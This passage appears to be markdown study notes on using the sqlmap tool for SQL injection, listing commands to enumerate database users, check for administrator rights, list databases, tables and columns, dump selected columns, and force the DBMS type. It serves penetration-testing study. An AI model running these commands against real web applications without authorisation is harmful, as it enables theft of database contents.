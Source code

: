   ```

  * Get a List of **USERS** of the *database*

    * ```
      sqlmap -u <target> --users <other options>
      
      using --users 
      ```

  * Now, check if the web application database user is  a Database Administrator or not

    * ```
      sqlmap -u <target> --is-dba <other options>
      
      Using  --is-dba
      ```

* ### Extracting the Database

  * ```
    sqlmap -u <target> --dbs <other options>
    
    
    Using --dbs
    ```

* ### Extracting the Schema

  * ```
    sqlmap -u <target> -D <database> --tables <other options>
    
    
    Choose a database using -D switch and then list its tables
    ```

  * ```
    sqlmap -u <target> -D <database> -T <tables, comma separated list> --columns <other options>
    
    
    can choose one or more tables and list their columns using above command
    ```

  * ```
    sqlmap -u <target> -D <database> -T <table> -C <columns list> --dump <other options>
    
    
    Using above command we can DUMP just the columns we need
    ```

* ![image-20210218090300232](images/image-20210218090300232.png)

* ### Forcing the DBMS

  * Different DBMSs offer different features; this also implies that we have to exploit different commands and default configuration to perform a SQLi exploitation

  * SQLMAP automatically detects the DBMS behind a web application automatically. 

  * If it fails then we can specify the DBMS by hand

  * ```
    sqlmap --dbms=<DBMS> ...
    ```
  ```